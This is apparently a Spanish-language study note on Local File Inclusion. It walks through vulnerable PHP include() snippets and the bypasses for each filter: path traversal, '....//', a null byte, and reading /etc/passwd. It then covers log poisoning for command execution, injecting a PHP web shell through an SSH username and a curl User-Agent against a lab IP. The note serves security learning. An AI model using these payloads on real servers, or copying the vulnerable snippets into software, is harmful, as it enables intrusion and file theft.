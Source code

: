 ----
- Tags: #basico #ataques #teoria #practica 
---

# ¿ Que es un **LFI** ?

### El **LFI** es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecauadamente** las entradas del usuario, permitiendo a un atacante **acceder a archvios locales** en el servidor web.

### Muchas veces, los atacantes aprovechas el **FLI** al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitires acceder a archivos en el servidor web. Esta técnica se conoce como **"Path Traversal"** y se utiliza comúnmente en ataques de **LFI**.

---

# Explotación 

### Para enumerar los posibles **LFI** y su respectiva explotación lo vamos a hacer de manera local junto a un archivo php para levantar nuestro servicio de apache, de esta manera, podemos ver como un desarrollador podria encarar el intento de **LFI** asi como **burlarlo**. 

#### Archivo index.php
```php
	$filename = $_GET['file'];
	include($filename); 
```

### Esto seria la **LFI** más basica, ya que directamente es confia en el input del usuario, donde se lee una query de la url con nombre file para incluirla a invel de sistema. Con poner en la url `....?file=/etc/passwd` estariamos leyendo archivos locales del sistema.

#### Intento triste de sanitización
```php
	$filename = $_GET['file'];
	include("/var/www/html" . $filename);
```

### Este "intento" de sanitización intenta obligar al usuario a introducir un arhivo de manera que se lo concatena con la ruta /var/www/html intentando obligar asi a que el archivo se encuentre en esta ruta, pero burlarlo, una vez más es posible, ya que jugando con **Path Traversal** se puede realizar ingresando en la url                                `...?file=../../../../../../../etc/passwd` estariamos volviendo a leer archivos locales del sistema.

#### Segundo intento de sanitización 
```php
	$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	include($filename); 
```

### En este nuevo intento, el desarrollador podria estar intentando evitar un **Path Traversal** de manera que intenta remplazar los valores `../` por `''` , es decir que esta eliminando de nuestro input los ../, pero, una vez más esto sigue siendo vulnerable, ya que este remplazo no es de manera recursiva, por lo que si ahora ingresamos en la url el valor de `...?file=....//....//....//....//....//....//....//....//....//....//etc/passwd` estariamos una vez más volviendo a leer archivos locales del sistema.

#### Jugando con regex
```php
	$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	if ( preg_match("/\/etc\/passwd/", $filename) === 1){
    echo "\n[!] No es posible visualizar el contenido de este archivo.\n"; 
	}else{  
    include("/var/www/html/" . $filename);
	}
	```

### En este caso, no solo esta intentando evitar un **Path Traversal** como anteriormente si no que tambien esta jugando con regex para evitar la string `/etc/passwd`, pero esto sigue siendo vulnerable, no solo por el hecho de que jugando con `....//` se puede listar cualquier archivo, si no que tambien, podriamos listar el etc/passwd ya que la regex filtra por exctamente /etc/passwd por lo que podriamos ingrear `/etc/////./././///////passwd` y seguiriamos pudiendo listar este y cualquier archivo local del sistema.  (Se pueden ingresar cuantas barras '/' y puntos '.' querramos.)

### Tambien a nivel de sistema, cuando usamos el `?` se pueden buscar archivos, por ejemplo `cat /e?c/pa??wd`. 

#### Forzando extensiones de archvios
```php
$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename . ".php"); 
```

### En este caso el desarrollador estaria intentando forzarnos a que lo que ingresemos tenga la extención .php, por lo que si quisieramos ingresar /etc/passwd estariamos ingresando /etc/passwd.php (En caso de sortear todo tipo de validación posible). En este caso, lo que podriamos hacer es hacer uso de un **NULL Byte**, es importante aclarar que esto funciona para versiones antiguas de php y no actuales. Solo haria falta poner en la url 
### `...?file=....//....//....//....//....//....//....//....//....//etc/passwd%00`, el **%00** es un null Byte, lo cual anula lo posterior al mismo, anulando asi la extención '.php'. 

### Tambien si se hiciera una validación tal que  `if(substr($argv[1],-6,6)!="passwd") include($argv[1]);` asi, en donde se evalua que los ultimos 6 caracteres no sean "passwd", para versiones antiguas de php, podriamos utilizar el `/.` para burlar esto, de manera que si ingresamos `/etc/passwd/.` estariamos burlando la validación. Lo mismo que si se utilizara lo mismo para validar extenciones, por ejemplo`if(substr($argv[1],-4,4)!=".txt") include($argv[1]);`, de esta manera no podriamos ver  archivos .txt, pero si hicieramos `file.txt/.` una vez más, estariamos burlando esto. 

----

#  Log Poisoning - ( **LFI** migrado a [[RCE - (Remote Command Execution)]] )

### El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro (logs)** de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr un [[RCE - (Remote Command Execution)]].  

### Esto se puede dar abusando de los archivos de logs de ssh, Mail, Apache, etc.

- ## SSH 
### Podriamos desde un **LFI** ver la ruta `/var/log/auth.log` o `/var/log/btmp`, entre otras, para ver los logs de SSH, y de esta manera, en caso de que los podamos ver, envenenar el log (**Log Poisoning**) intentando conectarnos a ssh por ejemplo con el comando `ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.38`. 

- ## Apache 
### Podriamos desde un **LFI** ver la ruta `/var/log/apache2/access.log`, entre otras, para ver los logs de Apache, y de esta manera, en caso de que los podamos ver, envenenear el log (**Log Poisoning**) intentando hacer un curl a la ruta y inyectando el comando php en el User-Agent con el comando `curl -s -X GET 'http://192.168.1.38' -d 'User-Agent: <?php system($_GET["cmd"]); ?>'` o con 
### `curl -s -X GET 'http://192.168.1.38' -A '<?php system("whoami"); ?>'`

